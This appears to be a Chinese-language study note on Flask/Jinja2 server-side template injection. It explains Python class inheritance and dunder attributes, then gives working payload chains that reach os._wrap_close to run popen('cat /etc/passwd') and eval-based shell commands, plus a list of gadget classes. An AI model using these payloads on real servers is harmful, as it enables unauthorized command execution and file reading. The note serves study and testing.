


## SSTI 利用逻辑
---

- 继承关系：漏洞运行的逻辑

	- 父类与子类之间存在继承关系

	- 子类可以通过父类访问其他子类

- 魔术方法：具体利用的指令

> Python Flask 脚本本身无法直接执行 Python 指令，因此 SSTI 会利用对象继承关系逐步获取可执行函数


## SSTI · 继承关系
---



`object` 是所有类继承关系的顶端

所有数据类型最终都会继承 `object`

### 代码示例

```python
class A:
    pass


class B(A):
    pass


class C(B):
    pass


class D(B):
    pass


c = C()

print(c.__class__)
# <class '__main__.C'>

print(c.__class__.__base__)
# <class '__main__.B'>

print(c.__class__.__base__.__base__)
# <class '__main__.A'>

print(c.__class__.__base__.__base__.__base__)
# <class 'object'>

print(c.__class__.__mro__)
# (<class '__main__.C'>, <class '__main__.B'>, <class '__main__.A'>, <class 'object'>)

print(c.__class__.__mro__[1])
# <class '__main__.B'>

print(c.__class__.__mro__[1].__subclasses__())
# [<class '__main__.C'>, <class '__main__.D'>]

print(c.__class__.__mro__[1].__subclasses__()[1])
# <class '__main__.D'>
```


## 相关常用魔术方法
---

### `__class__`

查看当前实例所属的类


### `__base__`

查看当前类的父类


### `__mro__`

查看完整继承链

### `__subclasses__()`

查看当前类的所有子类


### `__init__`

找有自定义 `__init__` 的类（没有`wrapper`字样），拿全局变量

### `__globals__`

以字典形式返回当前对象的全局变量（函数、变量、类）


### `__builtins__`

提供对 Python 内置函数（eval、open、**import** 等）的访问


## SSTI Payload 示例
---

```text

{{"".__class__}}
-> <class 'str'>

{{"".__class__.__base__}}
-> <class 'object'>

{{"".__class__.__base__.__subclasses__()}}
-> object 的所有子类
（
	复制下来到notepad++中使用替换，
	将`,`替换为`\n`
	查找目标模块
	找到`os._wrap_close`在118行
）

{{"".__class__.__base__.__subclasses__()[117]}}
-> <class 'os._wrap_close'>

{{"".__class__.__base__.__subclasses__()[117].__init__}}
-> <function _wrap_close.__init__ at 0x7fb5a1c6d9d8>
# 没有wrapper字眼，说明已经重载了

{{"".__class__.__base__.__subclasses__()[117].__init__.__globals__}}
-> 一个全局名字字典，里面存着：模块、函数、变量
# 打开这个类的全局命名空间
（
	ctrl+f查找`eval`、`popen`之类
）

{{"".__class__.__base__.__subclasses__()[117].__init__.__globals__['popen']('cat /etc/passwd').read()}}

{{"".__class__.__base__.__subclasses__()[117].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}}


```

## 常用注入模块
---


```python
# 系统 / 底层模块
os._AddedDllDirectory
os._wrap_close
_frozen_importlib._DummyModuleLock
_frozen_importlib._ModuleLockManager
_frozen_importlib.ModuleSpec
_frozen_importlib_external.FileLoader
_frozen_importlib_external._NamespacePath
_frozen_importlib_external._NamespaceLoader
_frozen_importlib_external.FileFinder
zipimport.zipimporter
zipimport._ZipImportResourceReader
_sitebuiltins.Quitter
_sitebuiltins._Printer
warnings.WarningMessage
warnings.catch_warnings
weakref.finalize

# 序列化 / 反序列化模块
pickle._Framer
pickle._Unframer
pickle._Pickler
pickle._Unpickler

# Jinja2 核心对象
jinja2.bccache.Bucket
jinja2.runtime.TemplateReference
jinja2.runtime.Context
jinja2.runtime.BlockReference
jinja2.runtime.LoopContext
jinja2.runtime.Macro
jinja2.runtime.Undefined
jinja2.environment.Environment
jinja2.environment.TemplateExpression
jinja2.environment.TemplateStream

# 字节码工具类
dis.Bytecode
```


## Q&A
---

### Q：为什么 SSTI 中使用 `__import__`

A：

`eval()` 只能执行表达式

- 错误示例

`eval("import os")`

`import os` 属于语句（statement），不能放入 `eval()`

- 正确示例

`eval("__import__('os')")`

`__import__('os')` 属于表达式（expression），可以被 `eval()` 执行

